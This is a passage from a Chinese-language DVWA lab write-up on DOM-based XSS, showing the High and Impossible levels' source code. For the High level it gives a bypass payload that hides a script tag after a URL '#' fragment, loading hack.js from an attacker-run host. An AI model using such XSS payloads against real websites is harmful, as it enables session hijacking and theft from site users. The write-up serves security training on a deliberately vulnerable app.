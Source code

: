 ### 3.3. High

接下来是`High`难度，源码如下。

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}

?>
```

这里使用了白名单，只允许 `default` 属性为4个合法值。用上面提到的`#`符号同样可以绕过。

```javascript
window.location.href = "http://9710fc76520cf9b2ff5ea67e0af9e0df.n1.vsgo.cloud:10278/web/vulnerabilities/xss_d/?default=English# <script src=http://localhost:8888/hack.js>\</script>";
```

### 3.3. Impossible

`Impossible`就基本上没有什么安全漏洞了。

```php
<?php

# Don't need to do anything, protction handled on the client side

?>
```

```javascript
if (document.location.href.indexOf("default=") >= 0) {
    var lang = document.location.href.substring(document.location.href.indexOf("default=") + 8);
    document.write("<option value='" + lang + "'>" + (lang) + "</option>");
    document.write("<option value='' disabled='disabled'>----</option>");
}

document.write("<option value='English'>English</option>");
document.write("<option value='French'>French</option>");
document.write("<option value='Spanish'>Spanish</option>");
document.write("<option value='German'>German</option>");
```

